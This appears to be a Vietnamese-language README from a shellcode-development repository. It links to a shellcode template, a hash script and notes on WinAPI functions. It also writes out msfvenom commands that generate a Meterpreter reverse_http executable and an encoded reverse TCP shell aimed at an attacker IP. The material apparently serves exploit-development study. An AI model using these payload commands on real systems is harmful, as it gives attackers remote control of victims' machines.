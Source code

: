 [File shellcode template ](./shellcode/shellcode.py)

[File tình hash tên hàm](./shellcode/computehash.py)

### Một số hàm
[CopyFileA](./Functions/CopyFileA/README.md) 

[CreateProccessA](./Functions/CreateProcessA/README.md) 

[GetUserNameA](./Functions/GetUserNameA/README.md) 

[GetUserProfileDirectoryA](./Functions/GetUserProfileDirectoryA/README.md) 

[LoadLibraryA](./Functions/LoadLibraryA/README.md) 

[MoveFileA](./Functions/MoveFileA/README.md) 

[TerminateProccess](./Functions/TerminateProccess/README.md) 

[WSAConnect](./Functions/WSAConnect/README.md) 

[WSASocketA](./Functions/WSASocketA/README.md) 

[WSAStartup](./Functions/WSAStartup/README.md) 


Tạo meterpreter:
msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.119.120 LPORT=8080 -f exe -v met.exe

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=8080 -f python –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"

cài pwntool
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
